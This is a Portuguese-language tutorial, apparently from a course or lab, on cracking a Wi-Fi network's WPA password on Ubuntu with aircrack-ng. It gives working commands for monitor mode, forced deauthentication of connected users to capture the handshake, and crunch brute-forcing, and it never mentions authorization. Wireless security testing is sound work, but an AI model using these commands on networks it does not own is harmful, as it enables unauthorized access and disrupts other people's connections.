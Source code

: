 <h1>Prática Ubuntu</h1>
<p>
Instale o aircrack-ng:
</p>

<p>
<pre><code>sudo apt-get update
sudo apt-get install aircrack-ng
</code></pre>
</p>

<p>
Verificar o nome da sua interface Wi-FI:
</p>

<p>
<pre><code>iwconfig
</code></pre>
</p>

<p>
Após verificar o nome da interface, deve-se verificar se o Ubuntu está reconhecendo o driver da interface sem fio:
</p>

<p>
<pre><code>sudo airmon-ng
</code></pre>
</p>

<p>
verificar se tem algum processo que pode acabar atrapalhando o processo de captura de pacotes:
</p>

<p>
<pre><code>sudo airmon-ng check kill
</code></pre>
</p>

<p>
Vamos colocar nossa placa de rede em modo monitor:
</p>

<p>
<pre><code>sudo airmon-ng start [nome_da_sua_interface_wireless]
iwconfig
</code></pre>
</p>

<p>
Quando a placa estiver pronta para monitorar, podemos ver quais são as redes disponíveis para nossos possíveis ataques.
</p>

<p>
<pre><code>sudo airodump-ng [nome_da_sua_interface_wireless]
</code></pre>

<p>
Após selecionar a rede alvo, utilizaremos algumas de suas informações. Você pode guardá-las em um bloco de notas. As informações são as seguintes:<br />
</p>
<ul>
<li><strong>BSSID:</strong> <em>Basic Service Set Identifier</em> se refere ao endereço MAC de um adaptador sem fio ou de um ponto de acesso.Sua função é identificar exclusivamente um ponto de acesso que enviará sinais pra transmissão da rede sem fio.</li>
<li><strong>CH:</strong> Canal na qual a rede está operando.</li>
<li><strong>ESSID:</strong> nome que é visível na rede.</li>
</ul>

<p>
Agora que temos a rede alvo, iremos monitorá-la usando algumas das informações adquiridas que guardamos em um bloco de notas anteriormente. É importante que pelo menos 300 pacotes de dados tenham passado pela rede para garantir que o <strong>WPA HANDSHAKE</strong> seja capturado.
<p>
<pre><code>sudo airodump-ng -c [canal_da_rede_alvo] --bssid [bssid_da_rede_alvo] -w dados [nome_da_sua_interface_wireless]
</code></pre>
</p>

<p>
Hora de capturar o tão esperado WPA HANDSHAKE. Para que seja capturado, é preciso que alguém se conecte à à rede. Há duas opções: você espera a oportunidade que algum usuário se conecte ou você pode desautenticar quem já está conectado e capturar o WPA HANDSHAKE logo que o usuário se reconectar. Usaremos a segunda opção!
<p>
<pre><code>sudo aireplay-ng -0 10 -a [bssid_da_rede_alvo] [nome_da_sua_interface_wireless]
</code></pre>
</p>

<p>
Verificar o <strong>WPA HANDSHAKE</strong> capturado no arquivo criado anteriormente na execução do comando de captura. No caso deste tutorial, o arquivo criado recebeu o nome “dados”. Dê o seguinte comando no seu diretório atual:
</p>
<pre><code>ls
sudo aircrack-ng net-01.cap
</code></pre>
</p>

<p>
Caso não já tenha instalado, será necessário a instalação do programa crunch:
</p>
<p>
<pre><code>sudo apt-get update
</code></pre>
</p>
<p>
<pre><code>sudo apt-get install crunch
</code></pre>
</p>

<p>
Hora de quebrar no Brute Force:
</p>
<p>
<pre><code>sudo crunch [min] [max] [padrão] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
</p>

<p>
Você também pode usar o seguinte comando, caso deseje começar a busca a partir de uma determinada combinação dentro padrão.
</p>
<p>
<pre><code>sudo crunch [min] [max] [padrão] -s [combinação] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
<p>
Ao final, temos de reativar o nosso network-manager pois ao usar o comando check kill ele o desativa.
</p>

<p>
<pre><code>sudo service network-manager start
</code></pre>
</p>
